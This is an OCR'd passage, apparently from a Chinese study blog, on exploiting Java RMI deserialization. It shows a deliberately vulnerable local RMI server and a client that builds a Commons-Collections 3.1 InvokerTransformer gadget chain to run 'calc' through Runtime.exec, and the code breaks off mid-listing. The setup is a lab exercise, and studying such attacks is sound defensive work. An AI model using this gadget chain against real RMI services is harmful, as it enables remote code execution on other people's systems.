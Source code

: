 ```
            System.out.println("调用了hello方法");  
 return "Hello world";  
 }  
  
        public void evil(Object obj) throws RemoteException {  
            System.out.println("调用了evil方法，传递对象为："+obj);  
 }  
  
        @Override  
 public String sayHello(String keywords) throws RemoteException {  
            return null;  
 }  
    }  
    private void start() throws Exception {  
        RemoteHelloWorld h = new RemoteHelloWorld();  
 LocateRegistry.createRegistry(1099);  
 Naming.rebind("rmi://127.0.0.1:1099/Hello", h);  
 }  
  
    public static void main(String[] args) throws Exception {  
        new VictimServer().start();  
 }  
}
```

- jdk版本1.7
- 使用具有漏洞的Commons-Collections3.1组件
- RMI提供的数据有Object类型（因为攻击payload就是Object类型）

这段不是很懂，客户端代码如下

JAVA

```
import Server.IRemoteHelloWorld;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
 
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.rmi.Naming;
import java.util.HashMap;
import java.util.Map;
import Server.IRemoteHelloWorld;
 
public class RMIClient {
    public static void main(String[] args) throws Exception {
        IRemoteHelloWorld r = (IRemoteHelloWorld) Naming.lookup("rmi://127.0.0.1:1099/Hello");
        r.evil(getpayload());
    }
 
    public static Object getpayload() throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
 
```